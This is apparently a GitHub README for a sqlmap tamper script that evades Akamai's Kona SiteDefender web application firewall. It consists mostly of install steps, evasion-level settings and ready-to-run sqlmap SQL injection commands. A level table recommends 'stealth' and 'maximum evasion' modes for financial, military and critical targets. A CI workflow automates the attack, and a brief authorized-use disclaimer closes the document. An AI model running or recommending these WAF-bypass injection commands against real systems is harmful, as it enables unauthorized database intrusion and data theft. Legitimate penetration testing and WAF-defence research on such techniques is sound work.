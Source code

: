 # Kona SiteDefender Advanced Bypass Tamper Script Comprehensive evasion techniques collection Research and educational purposes only by Zzl0y
* Multi-level tamper script designed to bypass Akamai's Kona SiteDefender WAF with sophisticated evasion techniques and adaptive payload transformation.


## Usage Guide

## 1. Installation and Setup
```bash
# Make it executable
chmod +x hakamai.py

# Copy to SQLMap tampers directory
cp hakamai.py ~/.sqlmap/tamper/
# OR
cp hakamai.py /opt/sqlmap/tamper/
```

## 2. Environment Configuration
```bash
# Core configuration
export TAMPER_LEVEL=3          # Evasion level (1-5)
export TAMPER_DEBUG=1          # Enable debug logging
export TAMPER_AGGRESSIVE=1     # Enable aggressive mode
export TAMPER_STEALTH=1        # Enable stealth mode
export TAMPER_SEED=12345       # Reproducible randomization seed

# Advanced configuration
export TAMPER_LOG_FILE=/tmp/tamper.log    # Custom log file
export TAMPER_STATS=1                     # Enable statistics
```

## 3. Usage Examples
```bash
# Basic professional usage
sqlmap -u "https://target.com/app.php?id=1" \
       --tamper=hakamai \
       --random-agent \
       --delay=2

# High-security target (Level 4 Stealth)
TAMPER_LEVEL=4 TAMPER_STEALTH=1 sqlmap \
    -u "https://target.com/app.php?id=1" \
    --tamper=hakamai \
    --random-agent \
    --delay=5 \
    --timeout=60 \
    --retries=3 \
    --proxy=http://127.0.0.1:8080

# Maximum evasion (Level 5 Adaptive)
TAMPER_LEVEL=5 TAMPER_AGGRESSIVE=1 sqlmap \
    -u "https://hardened-target.com/app.php?id=1" \
    --tamper=hakamai \
    --random-agent \
    --delay=10 \
    --timeout=90 \
    --threads=1 \
    --technique=BEUST

# Debug and analysis mode
TAMPER_DEBUG=1 TAMPER_LEVEL=3 sqlmap \
    -u "https://target.com/app.php?id=1" \
    --tamper=hakamai \
    --flush-session \
    -v 6 2>&1 | tee analysis.log
```

## 4. Level Selection Guide
```bash
Level	 Use Case	            Target Environment	            Recommended Settings
1	    Basic WAF, Testing	  Development, Light Security	    TAMPER_LEVEL=1
2	    Standard Production	  Most Corporate WAFs	            TAMPER_LEVEL=2 (default)
3	    Enhanced Security	    Strict Corporate, Government	  TAMPER_LEVEL=3 TAMPER_AGGRESSIVE=1
4	    High-Security Targets	Financial, Military, Critical	  TAMPER_LEVEL=4 TAMPER_STEALTH=1
5	    Maximum Evasion	      Hardened Environments, SOC	    TAMPER_LEVEL=5 TAMPER_AGGRESSIVE=1
```

## Hakamai.sh Automation Script
*Hakamai_auto.sh - Kona SiteDefender Testing Suite

## ⚡ Advanced Features

## Performance Monitoring
```bash
# Enable comprehensive monitoring
export TAMPER_STATS=1
export TAMPER_DEBUG=1

# Run with profiling
python -m cProfile -o tamper_profile.prof hakamai.py --benchmark
```

## Custom Seed for Reproducibility
```bash
# Set seed for reproducible testing
export TAMPER_SEED=12345
sqlmap -u "target.com" --tamper=hakamai

# Results will be identical across runs with same seed
```

## Integration with CI/CD
* yaml
```yaml
# .github/workflows/security-test.yml
name: Security Testing with Kona Bypass
on: [push]
jobs:
  security-test:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v2
    - name: Setup SQLMap
      run: |
        git clone https://github.com/sqlmapproject/sqlmap.git
        cp hakamai.py sqlmap/tamper/
    - name: Run Security Test
      env:
        TAMPER_LEVEL: 3
        TAMPER_DEBUG: 1
      run: |
        cd sqlmap
        python sqlmap.py -u "${{ secrets.TEST_URL }}" --tamper=hakamai --batch
```


## DISCLAIMER:
-----------
This script is intended for authorized penetration testing and security research only.
Use only in environments where you have explicit written permission to test.
Unauthorized use against systems you do not own is illegal and unethical.
